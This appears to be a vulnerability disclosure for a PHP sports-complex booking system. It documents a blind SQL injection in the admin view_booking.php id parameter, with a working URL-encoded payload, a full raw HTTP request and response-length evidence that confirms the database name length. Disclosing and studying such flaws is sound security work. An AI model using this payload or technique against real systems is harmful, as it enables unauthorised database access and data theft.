 # Online Sports Complex Booking System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15236/online-sports-complex-booking-system-phpmysql-free-source-code.html

Vulnerability File: /scbs/admin/bookings/view_booking.php?id=

Vulnerability location: /scbs/admin/bookings/view_booking.php?id=, id

Current database name: scbs_db,length is 7

[+] Payload: /scbs/admin/bookings/view_booking.php?id=4%27%20and%20length(database())%20=7%20--+

```sql
GET /scbs/admin/bookings/view_booking.php?id=4%27%20and%20length(database())%20=7%20--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=gp584rjk4ugbjakmto03cu7pco
Connection: close

// Leak place ---> id
```

When length (database ()) = 6, Content-Length: 2952
![image](https://user-images.githubusercontent.com/54017627/165216424-ff2e3568-a389-4968-b839-22eba68db776.png)

![image](https://user-images.githubusercontent.com/54017627/165216351-2218a28c-2ac2-4813-be3f-c34ffb6fef93.png)

When length (database ()) = 7, Content-Length: 2460
![image](https://user-images.githubusercontent.com/54017627/165216396-6b93c800-392f-4b60-89bb-93a5cd7711d3.png)

![image](https://user-images.githubusercontent.com/54017627/165216318-0cb512da-b569-449f-9f3e-0c913ddac64b.png)

